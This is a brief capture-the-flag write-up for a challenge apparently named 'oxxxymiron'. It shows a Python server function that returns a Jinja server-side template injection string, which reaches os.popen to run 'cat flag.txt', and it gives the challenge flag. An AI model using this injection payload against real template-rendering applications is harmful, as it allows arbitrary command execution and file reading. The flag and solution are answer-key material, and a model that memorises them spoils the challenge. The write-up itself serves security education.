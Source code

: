 # oxxxymiron writeup

Here is the example of server, that just returns SSTI-string.

```python
def index():
    return '{{request.application.__globals__.__builtins__.__import__("os").popen("cat\\x20flag.txt").read()}}'
```

This will read flag. Example of solution is in [solve.py](solve.py)

Flag: `li2CTF{I_r3Pe4t_My5elF_wH3n_4nDEr_Stre$$}`
